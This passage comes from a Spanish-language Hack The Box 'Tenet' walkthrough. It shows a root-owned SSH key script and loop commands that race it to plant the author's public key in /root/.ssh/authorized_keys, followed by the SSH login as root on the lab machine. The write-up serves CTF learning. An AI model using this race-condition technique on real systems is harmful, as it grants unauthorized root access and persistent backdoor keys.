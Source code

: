         /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Gracias a este script podemos ejecutar nuestra clave **.pub** a ```/root/.ssh/authorized_keys```

Lo que haremos es crear un bucle para añadir la publica en un archivo /tmp/ssh-*

```
while true; do echo "CLAVE PUBLICA" | tee /tmp/ssh-* > /dev/null; done
```

> Esto es en una terminal

En la otra terminal tambien conectada por ssh al usuario neil realizaremos este otro bucle, para poder ejecutar el script que hemos visto anteriormente:

```
while true; do sudo /usr/local/bin/enableSSH.sh;done
```

Por último nos conectaremos a root mediante ssh con este comando:```ssh root@10.10.10.223 -i id_rsa```


## Información Adicional

Páginas web utilizadas:

- [PHP Deserialization](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) - Exploit de la deserialización de PHP

**[⬆ back to top](#-----hack-the-box-tenet-)**
